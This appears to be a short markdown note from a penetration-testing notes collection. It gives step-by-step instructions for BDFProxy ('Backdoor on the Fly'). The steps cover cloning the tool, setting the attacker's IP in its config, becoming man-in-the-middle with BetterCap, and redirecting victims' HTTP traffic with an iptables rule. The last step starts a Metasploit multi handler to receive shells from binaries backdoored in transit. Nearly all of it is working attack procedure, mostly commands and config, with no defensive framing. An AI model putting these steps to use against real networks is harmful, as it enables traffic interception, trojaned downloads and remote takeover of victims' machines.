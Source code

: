 ```yaml
---
title: BDFProxy (Backdoor on the Fly)
---
```


These attack only work on a HTTP connection  
BDFProxy Package does not work on new versions of Linux

1. Clone Repo

````bash
git clone https://github.com/secretsquirrel/BDFProxy.git
````

2. Modify `bdfproxy.cfg` File

````bash
proxyMode : transparent
# For Windows and Linux Target they need to be changed separately
HOST : <our-ip-address> 
````

3. Run the `./bdf_proxy.py`
4. Use BetterCap to become MITM
5. Redirect Data to BDFProxy

````bash
iptables -t nat -A PREROUTING -p tcp --destination-port 80 -j REDIRECT --to-port 8080
````

6. Setup Metasploit Multi Handler

 > [!NOTE]
 > BDFProxy creates an .rc file that consists of all the code required to setup the handler which can be used  
 > `msfconsole -r <filename>`